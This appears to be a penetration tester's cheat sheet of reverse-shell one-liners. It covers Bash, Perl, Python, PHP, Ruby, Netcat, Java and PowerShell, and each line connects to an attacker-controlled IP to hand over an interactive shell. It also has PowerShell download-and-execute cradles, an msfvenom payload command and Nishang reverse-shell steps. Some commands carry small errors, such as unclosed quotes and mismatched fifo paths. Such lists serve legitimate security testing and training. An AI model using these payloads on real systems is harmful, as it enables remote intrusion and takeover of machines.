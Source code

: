 # Reverse shell

###  Powershell

```c
// Edit and host nishang Invoke-PowershellTcp
Powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.32/shell.ps1)

// using powershell.exe os bit architecture
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.32/shell.ps1)

```

### Bash/Shell

```bash
# bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

# /bin/bash
/bin/bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

# sh
sh -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Perl

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' 
```

### Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP

```bash
# This code assumes that the TCP connection uses file descriptor 3.  If doesn’t work, try 4, 5, 6…
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat / Netcat without -e

```bash
# sh
nc -e /bin/sh 10.0.0.1 1234

# bash
nc -e /bin/bash 10.0.0.1 1234

#Netcat without -e
rm /tmp/2;mkfifo /tmp/2;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/2

#Netcat without -e (FREEBSD ONLY!)
rm /tmp/2;mkfifo /tmp/2;cat /tmp/f|/bin/sh -i |nc 10.0.0.1 1234 >/tmp/2
```

### Java

```bash
r = Runtime.getRuntime()p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()
```

### JENKINS Script Console

Jenkins &gt; Manage Jenkins &gt; script console

{% embed url="https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76" %}

## Nishang Powershell

```bash

msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://10.10.14.32/Hacked')\""

vim nishang/Shells/Invoke-PowerShellTcp.ps1 

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.32 -Port 4567

cp Invoke-PowerShellTcp.ps1 Hacked

python -m SimpleHttpServer 80
```

